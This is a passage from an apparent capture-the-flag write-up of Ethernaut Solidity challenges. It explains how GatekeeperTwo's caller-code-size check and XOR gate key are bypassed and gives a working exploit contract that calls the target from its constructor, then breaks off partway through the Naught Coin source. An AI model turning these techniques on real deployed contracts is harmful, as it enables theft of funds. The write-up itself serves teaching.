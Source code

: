```solidity
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
    require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == uint64(0) - 1);
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

- The `gateOne` is same as the gate one in the before challenge.
- And `gateTwo` checks that the size of the code at caller address is zero, when we call the contract from another this checks fails, we can bypass this check by calling the contract from the constructor of the other contract where the size of code will be `0` because the code gets allocated only after successful execution of constructor.
- Finally, the `gateThree` we can decypher the key by doing an `xor` operation between `uint64(bytes8(keccak256(abi.encodePacked(this))))` and `(uint64(0) - 1)`.

> #### Solution:
> ```solidity
> // SPDX-License-Identifier: UNLICENSED
> pragma solidity ^0.6.0;
> 
> interface gate {
>     function enter(bytes8 _gateKey) external returns (bool);
> }
> 
> contract gateTwoExp {
>     gate g;
> 
>     constructor(address _instance) public{
>         g = gate(_instance);
>         bytes8 key = bytes8(uint64(bytes8(keccak256(abi.encodePacked(this)))) ^ (uint64(0) - 1));
>         g.enter(key);
>     }
> }
> ```

<hr>

## 15 Naught Coin
We need to transfer our token balance to other address.
#### Source:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/token/ERC20/ERC20.sol';

 contract NaughtCoin is ERC20 {

  // string public constant name = 'NaughtCoin';
  // string public constant symbol = '0x0';
  // uint public constant decimals = 18;
  uint public timeLock = now + 10 * 365 days;
  uint256 public INITIAL_SUPPLY;
  address public player;
```